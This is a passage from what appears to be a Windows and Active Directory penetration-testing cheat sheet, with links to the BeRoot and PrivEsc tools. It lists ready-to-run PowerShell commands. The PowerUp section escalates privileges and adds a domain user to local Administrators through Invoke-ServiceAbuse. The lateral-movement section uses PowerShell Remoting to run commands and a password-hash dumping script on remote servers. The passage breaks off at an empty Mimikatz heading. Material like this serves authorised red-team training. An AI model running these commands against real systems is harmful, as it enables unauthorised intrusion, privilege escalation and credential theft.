 Link: [BeRoot](https://github.com/AlessandroZ/BeRoot/tree/master/Windows)

#### PrivEsc



```
. .\privesc.ps1
```

Link: [PrivEsc](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

* **With PowerUp:**

```
# Performs all checks
Invoke-AllChecks                                                         
# Get services with unquoted paths and a space in their name
Get-ServiceUnquoted -Verbose                                             
# Get services where the current user can write to its binary path or change arguments to the binary
Get-ModifiableServiceFile -Verbose                                       
# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose                                           
# Let's add our current domain user to the local Administrators group 
Invoke-ServiceAbuse -Name 'software_xxx' -UserName 'corporate\student01'
```

* **With PrivEsc:**

```
# Performs all checks
Invoke-Privesc                                        
```

## Lateral Movement



* **Powershell Remoting:**

```
# Execute whoami & hostname commands on the indicated server
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName xxxx.corporate.corp.local          
# Execute the script Git-PassHashes.ps1 on the indicated server
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName xxxx.corporate.corp.local
# Enable Powershell Remoting on current Machine
Enable-PSRemoting
# Start a new session
$sess = New-PSSession -ComputerName <Name>
# Enter the Session
Enter-PSSession $sess
Enter-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName -Sessions <Sessionname>
```

* **Invoke-Mimikatz:**
